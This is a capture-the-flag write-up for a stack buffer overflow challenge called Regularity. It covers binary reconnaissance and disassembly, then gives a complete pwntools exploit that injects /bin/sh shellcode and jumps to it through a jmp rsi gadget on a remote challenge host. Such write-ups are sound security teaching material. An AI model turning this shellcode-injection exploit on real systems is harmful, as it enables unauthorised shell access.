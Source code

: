 # Regularity (<font color=green> Very Easy </font>)


## Description
Nothing much changes from day to day. Famine, conflict, hatred - it's all part and parcel of the lives we live now. We've grown used to the animosity that we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...


## Tools Used

- GDB – for debugging and analyzing memory/registers during crashes.

- pwntools – for automating the exploit development and interacting with the binary.

- radare2 – for disassembly and static analysis of the binary.

- ROPgadget – to search for useful instruction sequences (gadgets) inside the binary.

## Skills Learned

- Identifying and exploiting stack buffer overflows

- Writing and injecting custom shellcode

## Steps Taken
### Step 1. Binary Reconnaissance
- `file regularity`: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped
- `checksec --file=regularity`: No RELRO, No canary found, NX disabled, No PIE  
    No modern mitigations are enabled. Exploitation is straightforward.
### Step 2: Disassembly & Vulnerability Discovery
- Using radare2: `r2 -A regularity`, we can find 3 functions using `afl`:
    ```
    0x00401000    1     67 entry0
    0x00401043    1      8 loc.write
    0x0040104b    1     36 loc.read
    ```
- The one we are interested in is loc.read as it reads our input and can be vulnerable to buffer overflow. Using `pdf @loc.read`, we can disassemble the function.
    ```
    ┌ 36: loc.read ();
    │           0x0040104b      4881ec0001..   sub rsp, 0x100
    │           0x00401052      b800000000     mov eax, 0
    │           0x00401057      bf00000000     mov edi, 0
    │           0x0040105c      488d3424       lea rsi, [rsp]
    │           0x00401060      ba10010000     mov edx, 0x110              ; 272
    │           0x00401065      0f05           syscall
    │           0x00401067      4881c40001..   add rsp, 0x100
    └           0x0040106e      c3             ret
    ```
    - `sub rsp, 0x100`: allocate 256 bytes
    - `lea rsi, [rsp]`: buffer = rsp
    - `mov edx, 0x110`: read 272 bytes
- Reads 272 bytes into a 256-byte buffer on the stack → classic stack buffer overflow.
### Step 3: Find a jmp rsi Gadget
- We want the program to jump to our shellcode. The input buffer will be pointed to by rsi, so we look for `jmp rsi` gadget using ROPgadget.
### Step 4: Build the [Exploit](\exploit.py) Payload
- We inject shellcode that spawns a shell (/bin/sh), pad to 256 bytes, then overwrite RIP with the gadget address. 
    ```python
    from pwn import *

    context.binary = './regularity'
    context.arch = 'amd64'

    p = remote('83.136.253.201', 51755)
    shellcode = asm(shellcraft.sh())
    payload = shellcode
    payload += b'A' * (256 - len(shellcode))
    payload += p64(0x401041)  # jmp rsi

    p.sendafter(b"days?\n", payload)
    p.interactive()
### Step 5: Capture the Flag
- Once shell access is gained: `$ cat flag.txt`
